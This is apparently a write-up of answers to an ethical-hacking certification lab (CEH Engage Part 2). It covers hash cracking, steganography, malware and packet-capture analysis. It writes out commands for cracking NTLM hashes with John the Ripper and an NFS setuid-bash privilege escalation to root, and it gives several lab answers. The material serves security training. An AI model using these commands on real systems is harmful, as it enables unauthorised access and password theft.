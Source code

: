 # 2⃣ CEH Engage Part 2



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user James?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user Jones?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



You have got user-level access to the machine with IP 172.16.0.11. Your task is to escalate the privileges to that of the root user on the machine and read the content in the rootflag.txt file. (Note: all the flag files are located at the root, Desktop, Documents, or Downloads folder for the respective users/machines). Note: use LinuxPass when asked for machine password.

```
nmap -sV <IP addr>
```

```
sudo apt-get install nfs-common
```

```
showmount -e <IP addr>

mkdir /tmp/nfs

sudo mount -t nfs <IP addr>:/home /tmp/nfs

cd /tmp/nfs

sudo cp /bin/bash

sudo chmod +s bash

ls -la bash

ssh -l ubuntu <IP addr>

cd /home

./bash -p

id
```



<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



An employee in your organization is suspected of sending important information to an accomplice outside the organization. The incident response team has intercepted some files from the employee's system that they believe have hidden information. You are asked to investigate a file named Confidential.txt and extract hidden information. Find out the information hidden in the file. Note: The Confidential.txt file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

```
SNOW.EXE -C Confidential.txt
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



The incident response team has intercepted an image file from a communication that is supposed to have just text. You are asked to investigate the file and check if it contains any hidden information. Find out the information hidden in the file. Note: The vacation.bmp file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



You are a malware analyst working for CEHORG. During your assessment within your organisation's network, you found a malware face.exe. The malware is extracted and placed at C:\Users\Admin\Documents in the EH Workstation – 2 machine. Analyze the malware and find out the File pos for KERNEL32.dll text. (Hint: exclude zeros.)



<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>











Analyze an ELF executable (Sample-ELF) file placed at C:\Users\Admin\Documents in the EH Workstation – 2 machines to determine the CPU Architecture it was built for.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>





You have been given a task to audit the passwords of a server present in CEHORG network. Find out the password of the user Adam and submit it. (Note: Use Administrator/ CSCPa\$$ when asked for credentials).

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>









Use Yersinia on the “EH Workstation – 1” (Parrot Security) machine to perform the DHCP starvation attack. Analyze the network traffic generated during the attack and find the Transaction ID of the DHCP Discover packets.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



CEHORG suspects a possible sniffing attack on a machine in its network. The organization has retained the network traffic data for the session and stored it in the Documents folder in EH Workstation – 2 (Windows 11) machine as sniffsession.pcap. You have been assigned a task to analyze and find out the protocol used for sniffing on its network.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



As an ethical hacker, you are tasked to analyze the traffic capture file webtraffic.pcapng. Find out the packet's id that uses ICMP protocol to communicate. Note: The webtraffic.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



An attacker has created a custom UDP packet and sent it to one of the machines in the CEHORG. You have been given a task to study the ""CustomUDP.pcapng"" file and find the data size of the UDP packet (in bytes). Note: The CustomUDP.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



A denial-of-service attack has been launched on a target machine in the CEHORG network. A network session file "DoS.pcapng" has been captured and stored in the Documents folder of the EH Workstation - 2 machine. Find the IP address of the attacker's machine.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



A machine in CEHORG network has been installed with a spyware by an Ex-employee. You are given a task to connect to the attacked machine to find out the hidden flag in the documents folder.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>









A disgruntled employee in CEHORG has used the Covert\_TCP utility to share a secret message with another user in the CEHORG network. Covert\_TCP manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can be used to hide the data inside IP header fields. The employee used the IP ID field to hide the message. The network capture file “Capture.pcapng” has been retained in the “C:\Users\Administrator\Documents” directory of the “EH Workstation – 2” machine. Analyze the session to get the message that was transmitted.



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>





CEHORG has assigned you with analysing the snapshot of the operating system registry and perform the further steps as part of dynamic analysis and find out the whether the driver packages registry is changed. Give your response as Yes/No.

\-> Yes





Perform windows service monitoring and find out the service type associated with display name "afunix".



<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>





CEHORG has found that one of its web application movies.cehorg.com running on its network is leaking credentials in plain text. You have been assigned a task of analysing the movies.pcap file and find out the leaked credentials. Note: The movies.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine. Make a note of the credentials obtained in this flag, it will be used in the Part 4 of CEH Skill Check.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



CEHORG hosts a datacenter for its bussiness clients. While analyzing the network traffic it was observed that there was a huge surge of incoming traffic from multiple sources. You are given a task to analyze and study the DDoS.pcap file. The captured network session (DDoS.pcapng) is stored in the Documents folder of the EH Workstation -2 machine. Determine the number of machines that were used to initiate the attack.

\-> 3

